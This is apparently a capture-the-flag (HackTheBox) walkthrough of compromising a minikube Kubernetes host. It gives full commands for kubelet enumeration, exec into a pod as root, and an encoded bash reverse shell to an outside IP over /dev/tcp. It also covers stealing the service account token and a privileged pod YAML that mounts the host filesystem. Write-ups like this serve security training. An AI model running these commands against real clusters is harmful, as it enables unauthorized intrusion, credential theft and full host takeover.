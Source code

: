 # recon
- **nmap -p- --min-rate 10000 -oA scans/nmap-alltcp  10.10.11.133**
- found seven open TCP ports, SSH (22), Kubernetes (2379, 2380, and 8443), and InfluxDB (10249, 10250, and 10256)
- **nmap -p 22,2379,2380,8443,10249,10250,10256 -sCV -oA scans/nmap-tcpscripts 10.10.11.133**
- Based on this [Doc](https://kubernetes.io/docs/reference/networking/ports-and-protocols/) not only are 2379 and 2380 a part of Kubernetes, but the ports that nmap labeled as InfluxDB are as well.
- Based on some of the names, this seems like an instance of minikube
- **Kubernetes manages large deployments of containers.**
- TCP 8443 is the main API server for the cluster
- A kubelet is an agent running on each node that controls it, and typically listens on TCP 10250
 ![kub](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/kub.png)
- Visiting the service in Firefox returns an HTTP 403 with a JSON body
- a message says The anonymous user can’t /
- kubectl prompts for auth so deadend
- There’s a tool like kubectl for kubelets, kubeletctl. After installing it based on the instructions from the README, I’ll try the pods command to list all the pods on the node.
- **kubeletctl pods -s 10.10.11.133**
- The runningpods command gives a bunch of JSON about the running pods: **kubeletctl runningpods -s 10.10.11.133**
- use jq to get a list of the name and namespace:
  - **kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'**
- There’s only one that’s not in the kube-system namespace.
# Shell
- ith access to the kubelet service, I can also run commands on the containers. I’ll use the exec command in kubeletctl, giving both the name of the pod (nginx) and the name of the container (nginx)
- **kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx**
- we are rood
- As root, I can read the user.txt in the /root directory
- **kubeletctl -s 10.10.11.133 exec "ls /root" -p nginx -c nginx**
- **kubeletctl -s 10.10.11.133 exec "ls /root/user.txt" -p nginx -c nginx**
- there is bash in the machine but it won’t do a bash reverse shell
- Thinking it might be bad characters, I tried encoded the reverse shell **echo "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" | base64 -w0**
- **kubeletctl -s 10.10.11.133 exec 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash' -p nginx -c nginx**
- It doesn’t seem to handle the pipes well and Neither curl nor wget seem to be in the container
- after several search It turns out there’s a much simpler way to get a shell - just issue the bash (or sh) command
- **kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx**
- We’re going to create our own highly privileged service account. First, we need to grab the token and cert
- **kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt**
- **kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token**
- To use kubectl, I’ll save the token in an environment variable, token (to save a lot of copy and pasting)
- **export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)**
- Now I can pass the ca.crt file and the token to kubectl and it doesn’t ask for a username and password
- **kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod**
- get pod returns information about the running pod!
- The auth can-i command in kubectl is used to see if a given account can take some action. With the -list flag, it will show all permissions
- **kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token**
- The important line is the third one, which says this account can get, create, and list pods
- I’ll grab the details of the current nginx container
- **kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token**
- There’s a ton of information here, but the two key parts I need:
   - namespace is default
   - image is nginx:1.14.2
- grab yaml file from prevous machine and upadate it for this scenario
```
  apiVersion: v1 
kind: Pod
metadata:
  name: 0xdf-pod
  namespace: default
spec:
  containers:
  - name: 0xdf-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
- The name is arbitrary. The namespace is the one I’ve been working out of, default. I’ll use the image that already exists here, nginx:1.14.2. The rest is just setting up the volumes / volumeMounts. The volumeMount says that I’m going to mount a volume named hostfs into the container at the mount point /mnt. Then that volume is defined as / on the host file system
- kubectl apply is used to start the pod :
- **kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token**
- Execution via Kubelet works just like it did in the original nginx container
- **kubeletctl exec "id" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod**
- But this time the host file system is mounted at /mnt and i can read root.txt
- **kubeletctl exec "cat /mnt/root/root.txt" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod**
